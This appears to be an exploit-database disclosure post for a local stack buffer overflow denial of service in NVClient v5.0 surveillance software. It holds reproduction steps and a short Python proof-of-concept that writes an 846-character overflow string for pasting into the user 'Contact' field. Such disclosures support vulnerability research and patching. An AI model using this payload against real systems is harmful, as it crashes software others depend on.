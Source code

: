 ```yaml
---
layout: post
title: NVClient v5.0 - Stack Buffer Overflow (DoS)
date: 2024-05-25
category: exploit
---
```


# Exploit Title: NVClient v5.0 - Stack Buffer Overflow (DoS)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 2023-08-19
# Software Link: http://www.neonguvenlik.com/yuklemeler/yazilim/kst-f919-hd2004.rar
# Software Manual: http://download.eyemaxdvr.com/DVST%20ST%20SERIES/CMS/Video%20Surveillance%20Management%20Software(V5.0).pdf
# Vulnerability Type: Buffer Overflow Local
# Tested On: Windows 10 64bit
# Tested Version: 5.0


# Steps to Reproduce:
# 1- Run the python script and create exploit.txt file
# 2- Open the application and log in
# 3- Click the "Config" button in the upper menu
# 4- Click the "User" button just below it
# 5- Now click the "Add users" button in the lower left
# 6- Fill in the Username, Password, and Confirm boxes
# 7- Paste the characters from exploit.txt into the Contact box
# 8- Click OK and crash!



#!/usr/bin/env python3

exploit = 'A' * 846

try:
    with open("exploit.txt","w") as file:
        file.write(exploit)
    print("POC is created")
except:
    print("POC not created")
